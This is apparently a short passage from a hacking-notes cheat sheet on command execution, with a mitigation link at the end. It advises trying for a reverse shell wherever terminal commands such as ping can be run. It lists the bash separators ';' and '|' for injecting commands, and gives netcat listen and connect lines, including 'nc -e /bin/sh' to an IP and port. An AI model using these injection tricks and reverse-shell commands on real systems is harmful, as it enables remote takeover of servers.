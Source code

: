* If you can run terminal commands (eg. ping), try to get a reverse shell
* Bash separators: **; |**
* Netcat commands:
  * Listen - **$ nc -vv -l -p _port_**
  * Connect - **$ nc -e /bin/sh _IP_ _port_**
  
### [Mitigation](https://github.com/KevinSantos/Hacking/blob/master/Mitigation/codeExecutionMitigation.php)
